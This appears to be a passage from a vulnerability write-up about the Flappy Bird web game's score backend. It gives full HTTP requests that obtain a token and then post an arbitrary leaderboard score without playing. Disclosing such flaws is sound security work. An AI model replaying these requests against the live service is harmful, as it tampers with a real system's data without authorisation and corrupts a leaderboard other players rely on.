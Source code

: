 ```http
POST /scores HTTP/2
Host: flappy-backend.fly.dev
Content-Length: 0
Sec-Ch-Ua-Platform: "macOS"
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: */*
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Origin: https://flappybird.io
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://flappybird.io/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i
```

#### **Server Response**

```http
HTTP/2 200 OK
Access-Control-Allow-Origin: *
Content-Type: application/json; charset=utf-8
X-Ratelimit-Limit: 60
X-Ratelimit-Remaining: 59
X-Ratelimit-Reset: 1755782984
Date: Thu, 21 Aug 2025 13:28:44 GMT
Server: Fly/da35c1382 (2025-08-20)
Via: 2 fly.io, 2 fly.io
Fly-Request-Id: 01K36D2HZ9YQXH38T0V6V7D74A-cdg

{"token":"JmuQBFvSPWBeLFGJxniOCSnFcPpglqGs"}
```

## The Vulnerability: Direct Score Manipulation

### **Step 2: Set Fake Score**

With the obtained token, it's possible to **set any score** without having played:

```http
POST /scores/JmuQBFvSPWBeLFGJxniOCSnFcPpglqGs?count=3 HTTP/2
Host: flappy-backend.fly.dev
Content-Length: 0
Sec-Ch-Ua-Platform: "macOS"
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Origin: https://flappybird.io
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://flappybird.io/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i
```
